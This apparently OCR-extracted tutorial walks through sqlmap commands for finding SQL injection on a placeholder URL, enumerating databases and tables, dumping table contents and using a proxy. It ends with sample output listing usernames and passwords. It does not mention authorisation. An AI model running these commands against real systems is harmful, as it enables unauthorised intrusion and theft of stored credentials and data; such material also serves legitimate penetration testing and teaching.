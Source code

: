 1. **Detect SQL Injection Vulnerability**:
   To check if a website is vulnerable to SQL injection, you can use the following command:

   ```
   sqlmap -u "http://example.com/page.php?id=1"
   ```

   This command will test the `id` parameter of the target URL for SQL injection vulnerabilities.

2. **Enumerate Database Information**:
   If a SQL injection vulnerability is found, you can use sqlmap to enumerate the database information, such as the database management system (DBMS), version, and table names. For example:

   ```
   sqlmap -u "http://example.com/page.php?id=1" --dbs
   ```

   This command will list all the databases on the target server.

3. **Dump Table Data**:
   Once you have identified the target database, you can use sqlmap to dump the data from specific tables. For example:

   ```
   sqlmap -u "http://example.com/page.php?id=1" -D database_name --tables
   sqlmap -u "http://example.com/page.php?id=1" -D database_name -T table_name --dump
   ```

   These commands will first list the tables in the `database_name` database, and then dump the data from the `table_name` table.

4. **Use a Proxy**:
   If you want to route the traffic through a proxy, you can use the `--proxy` option:

   ```
   sqlmap -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080"
   ```

**Example Output**

The output of a sqlmap scan can be quite detailed and informative. Here's an example:

```
[*] Fetching banner
[*] Database: mysql
[*] Banner: 5.5.30-0ubuntu0.12.04.1

[*] Fetching tables for database: 'database_name'
[*] Fetching entries for table 'users' in database 'database_name'
[*] Dumping data for table 'users'
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | admin    | password |
| 2  | user     | securepass |
+----+----------+----------+

[*] Stored data in the following file: /root/.local/share/sqlmap/output/example.com/dump/database_name/users.csv
```
